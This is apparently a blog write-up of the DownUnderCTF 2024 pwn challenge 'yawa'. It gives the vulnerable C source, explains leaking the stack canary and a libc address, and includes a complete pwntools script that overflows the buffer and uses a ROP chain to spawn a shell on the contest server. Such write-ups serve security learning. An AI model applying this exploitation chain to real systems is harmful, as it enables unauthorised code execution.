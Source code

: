 +++
title = 'DownUnderCTF 2024 - pwn/yawa'
date = 2024-07-07T10:47:36-04:00
draft = false
+++

We are given a binary with all protections turned on, and c source code..

```sh
[d@d-20tk001gus yaw]$ pwn checksec --file=yawa
[*] '/home/d/Downloads/DUCTF24/yaw/yawa'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

int menu() {
    int choice;
    puts("1. Tell me your name");
    puts("2. Get a personalised greeting");
    printf("> ");
    scanf("%d", &choice);
    return choice;
}

int main() {
    init();

    char name[88];
    int choice;

    while(1) {
        choice = menu();
        if(choice == 1) {
            read(0, name, 0x88);
        } else if(choice == 2) {
            printf("Hello, %s\n", name);
        } else {
            break;
        }
    }
}
```

First, we need to leak out the canary. We can do this by filling the name buffer with 88 bytes. Then, when we select option 2 and name is printed, it will also print out the canary

```python
    r.sendline("1")
    r.sendline(b"A" * 88)
    r.recv()
    r.sendline("2")
    
    r.recvuntil(b"A" * 88)
    canary = u64(r.recv(8).strip().rjust(8, b'\x00'))
    print(hex(canary))
```

Next we need to get the libc base address. Examining the stack with gdb, I saw that the return address was __libc_start_call_main+128 and it was 104 bytes from our buffer. We send 103 bytes because of the newline character.


```python
    r.sendline(b"1")
    r.sendline(b"A" * 103)
    r.recv()
    r.recv()
    r.sendline(b"2")
    r.recvuntil(b"A" * 103)
    libc_leak = u64(r.recv(7).strip().ljust(8, b'\x00'))
```

Using this leaked address, we can calculate the libc base address. Now we can use whatever gadgets we want in the provided libc. Easiest way to pop a shell is using system with /bin/sh. Full solve script below.


```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./yawa_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
ld = ELF("./ld-linux-x86-64.so.2", checksec=False)

context.binary = exe
context.terminal = ["alacritty", "-e"]

def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote("2024.ductf.dev", 30010)

    return r


def main():
    r = conn()
    libc_start = libc.sym.__libc_start_call_main + 128

    r.sendline("1")
    r.sendline(b"A" * 88)
    r.recv()
    r.sendline("2")
    
    r.recvuntil(b"A" * 88)
    canary = u64(r.recv(8).strip().rjust(8, b'\x00'))
    print(hex(canary))

    r.sendline(b"1")
    r.sendline(b"A" * 103)
    r.recv()
    r.recv()
    r.sendline(b"2")
    r.recvuntil(b"A" * 103)
    libc_leak = u64(r.recv(7).strip().ljust(8, b'\x00'))
    
    libc.address = libc_leak - libc_start
    print(hex(libc.address))

    pop_rdi = libc.address + 0x000000000002a3e5
    ret = libc.address + 0x00000000000f410b
    sys_addr = libc.sym["system"]
    binsh = next(libc.search(b"/bin/sh")) 


    payload = flat([
        b'A' * 88,
        canary,
        0,
        pop_rdi,
        binsh,
        ret,
        sys_addr
    ])

    r.sendline("1")
    r.sendline(payload)
    r.sendline("3")


    r.interactive()


if __name__ == "__main__":
    main()
```


`DUCTF{Hello,AAAAAAAAAAAAAAAAAAAAAAAAA}`